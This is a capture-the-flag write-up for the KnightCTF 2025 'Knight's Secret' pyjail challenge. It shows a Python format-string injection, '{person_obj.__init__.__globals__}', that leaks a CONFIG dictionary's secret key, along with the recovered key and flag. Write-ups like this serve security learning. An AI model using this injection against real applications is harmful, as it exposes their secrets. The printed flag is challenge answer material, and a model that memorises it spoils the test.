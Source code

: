 ```yaml
---
title: "Knight's Secret"
description: ""
pubDate: 2025-01-22
ctf: "KnightCTF 2025"
category: "pwn"
author: "sealldev"
section: "CTFs"
---
```


> Original Writeup on [seall.dev](https://seall.dev/posts/knightctf2025#knights-secret)

Note: This was less of a typical Pwn and was a pyjail.

We connect to the server and see this:
```bash
└─$ nc 45.56.68.122 1337
==================================================
Welcome to the Knight's Secret!
The castle's vault holds a secret key, protected within the CONFIG dictionary.
You are a knight tasked with proving the strength of the vault's defenses.
To succeed, you must craft an input to reveal the hidden key within the system.
You will be provided with a user object representing a knight, with attributes 'name' and 'role'.
Once you discover the key, input it again to receive the banner of victory.

Example of a safe template: 'Greetings, {person_obj.name}, the {person_obj.role}.'
Type 'hint' if you need guidance or 'exit' to withdraw from the quest.
==================================================

Enter your secret: 
```

Our aim is to find the `CONFIG` dictionary.

We can see entering just the object shows an instance, so we know this is Python:
```
Enter your secret: {person_obj}
Output: <__main__.Person object at 0x703c0aa16480>
```

Using the [PyJail Cheatsheet](https://shirajuki.js.org/blog/pyjail-cheatsheet) I use `.__init__.__globals__` to get the `CONFIG` dictionary.
```
Enter your secret: {person_obj.__init__.__globals__}
Output: {'__name__': '__main__', '__doc__': None, '__package__': None, '__loader__': <_frozen_importlib_external.SourceFileLoader object at 0x7e23d44d78f0>, '__spec__': None, '__annotations__': {}, '__builtins__': <module 'builtins' (built-in)>, '__file__': '/challenge/challenge.py', '__cached__': None, 'CONFIG': {'KEY': '_KNIGHTSECRET2025_'}, 'Person': <class '__main__.Person'>, 'fun': <function fun at 0x7e23d44be340>, 'main': <function main at 0x7e23d429cd60>}
```

We can then enter the secret for the flag.
```
Enter your secret: _KNIGHTSECRET2025_
Congratulations, noble knight! You have unveiled the vault's secret.
Here is your banner of victory: KCTF{_c0ngRaT5_Kn1GHT_Y0U_g07_THE_secreT_}
```

Flag: `KCTF{_c0ngRaT5_Kn1GHT_Y0U_g07_THE_secreT_}`